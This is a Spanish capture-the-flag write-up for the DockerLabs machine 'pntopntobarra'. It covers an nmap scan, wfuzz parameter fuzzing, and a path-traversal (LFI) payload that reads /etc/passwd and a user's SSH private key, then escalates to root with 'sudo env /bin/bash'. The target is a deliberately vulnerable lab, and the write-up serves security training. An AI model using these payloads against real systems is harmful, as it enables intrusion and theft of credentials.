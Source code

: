 Maquina pntopntobarra de [DockerLabs](https://dockerlabs.es)

![dock](./imagenes/dock.png)

Autor: yo ([maciiii___](https://instagram.com/macim0_))

Dificultad: Fácil

# INTRUSION

Comenzamos haciendo un escaneo de nmap a la ip 172.17.0.2.

```css
sudo nmap -p- 172.17.0.2 -sS --min-rate 5000 -n --open -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Aug 18 23:05:22 2024 as: nmap -p- -sS --min-rate 5000 -n --open -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

# Nmap done at Sun Aug 18 23:05:24 2024 -- 1 IP address (1 host up) scanned in 1.76 seconds

```

Vemos el puerto 22 y 80 abierto, nada interesante por lo que iremos directo al puerto 80 desde el navegador.

## PUERTO 80:

![80](./imagenes/80.png)

Parece un tipo de advertencia y nos nombra un "LeFvIrus", si vemos las letras en mayuscula seria "LFI", por lo que podria tratar de un `Local File Inclusion`, sabiendo eso podemos entrar a donde dice "Ejemplos de computadoras infectadas" y nos redirige a un ".php" que dice `Error al cargar el archivo.`, sabiendo que puede tratar de un LFI podriamos fuzzear parametros con el siguiente comando:

```css
wfuzz --hl=16 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/ejemplos.php?FUZZ=../../../../etc/passwd"
```

Al ejecutarlo vemos que el parametro "images" nos permite leer el `/etc/passwd`, ahora entramos al navegador y ponemos el parametro mas "../../../../etc/passwd". Como hay un usuario llamado "nico" podemos ver si se puede leer su clave privada de ssh, simplemente ponemos "../../../../home/nico/.ssh/id_rsa" y listo. Al enviarlo podemos ver la clave privada de el usuario nico. Nos copiamos la clave a nuestra maquina local a un archivo llamado "id_rsa", le damos permisos con `chmod 600 id_rsa` y luego entramos sin contraseña usando `ssh -i id_rsa nico@172.17.0.2`.

# ESCALADA DE PRIVILEGIOS

Una vez dentro seremos el usuario nico, al ejecutar `sudo -l` se ve que podemos ejecutar como root el binario "env", por lo que simplemente ponemos:

```css
sudo env /bin/bash
```

y listo, somos root:

![root](./imagenes/root.png)

Gracias.....





[INSTAGRAM](https://instagram.com/macim0_)